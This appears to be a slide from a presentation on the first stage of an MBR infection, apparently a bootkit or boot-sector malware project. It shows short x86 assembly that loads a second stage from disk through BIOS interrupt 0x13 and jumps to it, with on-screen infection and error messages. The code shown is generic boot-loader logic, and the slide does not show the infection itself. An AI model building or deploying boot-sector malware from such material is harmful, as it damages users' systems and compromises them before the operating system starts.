

Stage 1: MBR Infection
Key Responsibilities:
Critical Code Snippets:
Save boot drive in DL

mov ah, 0x02 ; Read disk sectors
mov al, 4    ; 4 sectors (Stage 2)
mov cl, 3    ; LBA 2 → CHS sector 3
mov bx, 0x8000 ; Load address
int 0x13     ; BIOS disk interrupt
jc error     ; Handle errors
jmp 0:0x8000 ; Jump to Stage 2
Display "MBR INFECTED!"
Load Stage 2 (4 sectors) to 0x8000
Failure Handling:
Displays "STG1 ERR!" on disk read error